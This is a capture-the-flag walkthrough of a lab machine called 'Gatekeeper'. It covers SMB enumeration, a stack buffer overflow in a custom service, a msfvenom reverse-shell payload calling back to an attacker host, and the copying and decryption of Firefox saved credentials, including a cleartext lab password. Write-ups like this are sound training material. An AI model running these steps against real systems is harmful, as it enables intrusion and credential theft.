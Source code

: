 # Gatekeeper

### Tasks:

1. **Approach the Gates**:
   1. Deploy the machine and complete the task.
2. **Defeat the Gatekeeper and pass through the fire**:
   1. Start with usual nmap service scan - `nmap -sC ip` - 139,445(SMB),3389(RDP), 31337 (Elite ?) and many other RPC ports open.
   2. Enumerate SMB shares using `smbclient -L \\ip\` , There's a share called Users accessible without password. Connect to Users share using `smbclient \\ip\Users\` , `cd Share`, `get gatekeeper.exe`. Copy the binary to windows VM for simpler testing.
   3. `nc ip 31337` , There is a application which takes username as input and outputs 'hello username!!!'. This is the same application we got through smb.
   4. Open gatekeeper.exe in Immunity Debugger
   5. Run `ncat 127.0.0.1 31337` - you should get connected to gatekeeper locally.
   6. Generate a long string of 200 bytes using `python -c "print('A'*200)"` and feed that as input in ncat terminal for username , the application should crash which confirms bufferoverflow.
   7. Generate cyclic string of length 200 using [online tool](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) or using metasploit framework pattern\_create.rb and send the cyclic string as username this time and note the EIP when application crashes. - 39654138
   8. Enter the EIP register value in same [online tool](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) or use `!mona findmsp -distance 200` to find exact offset which breaks buffer - 146
   9. In [exploit.py](https://gist.github.com/jayateertha043/8f8d79f5bfd307632a51779f58f16932) replace payload with bad chars and run [exploit.py](https://gist.github.com/jayateertha043/8f8d79f5bfd307632a51779f58f16932), notice that we have control over EIP(42424242).
   10. Look for missing bad characters if any by following ESP stack dump. If any of them is missing or not in order, try removing them from payload and repeat till all the bad characters are in same order as sent. `Bad chars - \x00\x0a`
   11. Run `!mona jmp -r esp -cpb "\x00\x0a"`  to know jmp esp address - 080414C3 and convert to little endian `\xc3\x14\x04\x08` then replace it in retn variable of [exploit.py](https://gist.github.com/jayateertha043/8f8d79f5bfd307632a51779f58f16932) also assign `"\x90" * 15` to padding variable(NOPs).
   12. Generate payload using `msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKERIP LPORT=4444 -b '\x00\x0a' -f py -v payload` and replace the payload in [exploit.py](https://gist.github.com/jayateertha043/8f8d79f5bfd307632a51779f58f16932).
   13. Start netcat listener - `nc -nlvp 4444`
   14. Run exploit.py to get shell in netcat listener.
   15. `type user.txt.txt` to get user flag and submit. Also notice in desktop there is a file called Firefox.lnk , which suggests firefox is installed in the machine.
   16. `cd C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release`, `copy logins.json C:\Users\Share` , `copy cert9.db C:\Users\Share`, `copy key4.db C:\Users\Share` , `copy cookies.sqlite C:\Users\Share` - Now you can download these using smbclient to your local machine.
   17. _Clone this _[_repo_](https://github.com/unode/firefoxdecrypt.git)_ , Copy the 4 files to a folder called loot_, `python firefox_decrypt.py "LootFolderLocation"` - mayor:8CL7O1N78MdrCIsV creds obtained.
   18. Use `psexec.py mayor:8CL7O1N78MdrCIsV@ip` to login as mayor, type `whoami` - mayor seems to be system user.
   19. `cd C:\Users\mayor\Desktop` and `type root.txt.txt` to obtain root flag and submit !!!





